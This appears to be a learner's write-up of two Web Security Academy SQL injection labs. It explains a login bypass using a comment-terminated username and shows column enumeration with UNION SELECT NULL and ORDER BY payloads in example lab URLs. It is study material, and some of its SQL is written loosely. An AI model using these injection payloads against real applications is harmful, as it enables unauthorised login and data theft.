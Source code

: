 1. SQL Injection -Login Vulnerability (Lab #2 SQL injection vulnerability allowing login bypass)


Analysis:
1st Enter a ''' to see if the application breaks

then where the username is known in our case administrator
enter administrator'-- as the username the password can be anything

then the application will login after interpretting the " -- " as comment

the following SQL Query will run:
SELECT from 'firstname' FROM users WHERE username = 'administrator'-- and password ='admin'


2. SQL Injection Query to determine the number of columns returned by an attack then use that to read data from other tables

End Goal: Determine the number of columns returned by the query

SQLi Attack (Way 1)
The following command runs:
select ? from table1 UNION select NULL
-> error : if you get and errot then you have ann incorrect nnumber of columns
e.g https://ac0e1f081f98328fc0b00f2d004300ac.web-security-academy.net/filter?category=Gifts'UNION select NULL--
select ? from table1 UNION select NULL, NULL, NULL..
-> keeping adding the nulls until you get a 200 response code that shows that you have the correct number of columns
https://ac0e1f081f98328fc0b00f2d004300ac.web-security-academy.net/filter?category=Gifts'UNION select NULL,NULL,NULL--
Web Query : GET /filter?category=Gifts'+UNION+select+NULL,+NULL,+NULL--+ 
Number of columns equals : 3
Using Burp:
![Screenshot](img/sqli-burp-column-enum.png)

SQLi Attack(Way #2)
Using 'order-by'
select a,b from table1 order by 3
where three is the number of column we are ordering by f you keeping increasing that number till you get an errr it shows you have reached the maximum number of column and therefore the totoal columns available in that table

![Screenshot](img/sqli-orderby-column-enum.png)
https://ac501f031fb27988c01106bf008d00f4.web-security-academy.net/filter?category=Pets' ORDER BY 4--
The above generates an error because there's no forth column to order anything by mean we reached our maximum number of columns which is 3